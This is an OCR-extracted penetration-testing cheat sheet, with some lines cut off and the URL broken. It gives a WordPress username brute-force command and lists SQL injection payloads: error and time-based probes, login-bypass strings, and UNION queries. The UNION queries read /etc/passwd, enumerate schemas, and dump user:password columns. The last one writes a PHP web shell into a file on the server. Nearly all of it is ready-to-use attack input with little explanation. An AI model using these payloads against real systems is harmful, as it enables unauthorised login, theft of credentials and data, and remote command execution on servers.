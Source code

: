 Username Enumeration via Bruteforce

SecurityCompass/wordpress-scripts

https://github.com/SecurityCompass/wo

rdpress-
scripts/blob/master/wp_login_user_enum

eration.py

python wp_brute.py -t http://10.10 -u usernames.txt

SQL Injection
Payloads

1 '
2 )'
3 "
4 `
5 ')
6 ")
7 `)
8 '))
9 "))
10 `))
11 '-SLEEP(30); #

Login Bypass

1 Both user and password or specific username and payload as password
2
3 ' or 1=1 --
4 ' or '1'='1
5 ' or 1=1 --+
6 user' or 1=1;#
7 user' or 1=1 LIMIT 1;#
8 user' or 1=1 LIMIT 0,1;#

UNION BASED SQL

1 order by 1
2 ' UNION SELECT 1,2,3 -- -
3 ' UNION SELECT 1,@@version,3 -- -
4 ' UNION SELECT 1,user(),3 -- -
5 ' UNION SELECT 1,load_file('/etc/passwd'),3 -- -
6 ' UNION SELECT 1,load_file(0x2f6574632f706173737764),3 -- - //hex encod
7
8 ' UNION SELECT 1,load_file(char(47,101,116,99,47,112,97,115,115,119,100))
9 ,3 -- - // char encode

1 // List databases available
2 ' UNION SELECT 1,2,3,4,5,group_concat(table_schema) from information_schema
3
4 // Fetch Table names
5 ' UNION SELECT 1,group_concat(table_name),3 from information_schema.tables
6 union all select 1,2,3,4,table_name,6 FROM information_schema.tables
7
8 // Fetch Column names from Table
9 ' UNION SELECT 1,group_concat(column_name),3 from information_schema.column
10 union all select 1,2,3,4,column_name,6 FROM information_schema.columns wher
11
12 // Dump data from Columns using 0x3a as seperator
13 ' UNION SELECT 1,group_concat(user,0x3a,pasword),3 from users limit 0,1-- -
14
15 // Backdoor
16
17 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OU
